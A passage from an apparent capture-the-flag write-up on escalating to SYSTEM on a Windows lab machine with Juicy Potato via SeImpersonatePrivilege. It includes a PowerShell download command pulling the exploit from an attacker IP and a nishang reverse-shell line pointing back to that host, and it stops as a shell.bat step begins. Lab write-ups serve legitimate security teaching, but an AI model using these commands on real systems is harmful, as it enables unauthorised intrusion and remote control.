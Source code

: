 _SetImpersonatePrivilege_ is enabled so we’re very likely to get SYSTEM using [Juicy Potato](https://github.com/ohpe/juicy-potato). Users running the SQL server service or the IIS service usually have these privileges enabled by design. This privilege is designed to allow a service to impersonate other users on the system. Juicy Potato exploits the way Microsoft handles tokens in order to escalate local privileges to SYSTEM.

Let’s test it out. Grab the Juicy Potato executable from [here](https://github.com/ohpe/juicy-potato/releases) and transfer it to the target machine using the following command.

```text
(new-object net.webclient).downloadfile('http://10.10.14.45:5555/JuicyPotato.exe', 'C:\Users\Public\Downloads\jp.exe')
```

Run the executable file to view the arguments it takes.

![](../images/max/932/1*I6zbLx6Yor48OjIEoYLTmQ.png)

It requires 3 mandatory arguments.

* **-t:** Create process call. For this option we’ll use \* to test both options.
* **-p:** The program to run. We’ll need to create a file that sends a reverse shell back to our attack machine.
* **-l:** COM server listen port. This can be anything. We’ll use 4444.

First copy the _Invoke-PowerShellTcp.ps1_ script once again into your current directory.

```text
cp ../../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell-2.ps1
```

Add the following line to the end of the script with the attack configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.45 -Port 6666
```

When called, this sends a reverse shell back to our attack machine on port 6666.

Next, create a _shell.bat_ file that downloads the above _shell-2.ps1_ PowerShell script and runs it.
